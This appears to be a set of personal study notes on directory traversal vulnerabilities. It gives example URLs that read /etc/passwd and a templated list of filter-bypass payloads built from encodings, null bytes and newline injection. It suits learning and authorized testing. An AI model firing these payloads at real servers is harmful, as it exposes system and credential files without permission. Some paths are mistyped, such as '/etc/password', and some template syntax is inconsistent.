 ```yaml
---
title: Directory traversal
description: Directory traversal (also known as file path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application.
---
```


## Reading arbitrary files via directory traversal

This vulnerability starts of pretty simple. Just add `../` sequences to different inputs to try and reference different files from the server.
It can come from parameters or just from the URL path:

- `https://insecure-website.com/loadImage?filename=../../../etc/passwd`
- `/var/www/images/../../../etc/passwd`

Deppending of the server's OS, you might be able to use different sequences:

- **Linux**:
  - `../`
- **Windows**:
  - `../`
  - `..\`

> I would test both sequences on both Linux and Windows, because you never know.

## Common obstacles to exploiting file path traversal vulnerabilities

There is a lot of ways to implement mechanisms to prevent path traversal, and bypassing them comes down to a bussiness logic vulnerabilities.
Try different encodings and different ways of indincating the same file.
Here you have some examples:

```text
{{ target-file etc/password }}
../../../../../../../../..{{ target-file /etc/password }}
../../../../../../../../..{{ target-file /etc/password }}%00{{ valid-extension .png }}
../../../../../../../../..{{ target-file /etc/password }}%0d{{ valid-extension .png }}
../../../../../../../../..{{ target-file /etc/password }}%0a{{ valid-extension .png }}
../../../../../../../../..{{ target-file /etc/password }}%0d%0a{{ valid-extension .png }}
../../../../../../../../..{{ target-file /etc/password }};{{ valid-extension .png }}
..../..../..../..../..../..../..../..../....{{ target-file /etc/password }}
....//....//....//....//....//....//....//....//..../{{ target-file /etc/password }}
....\/....\/....\/....\/....\/....\/....\/....\/....\{{ target-file /etc/password }}
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e{{ target-file /etc/password } url-all }
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e{{ target-file /etc/password } url-all, url-all }
..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0{{ target-file /etc/password } url-all }
..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc{{ target-file /etc/password } url-all }
{{ prefix-whitelist /var/www/images/ }}../../../../../../../../..{{ target-file /etc/password }}
```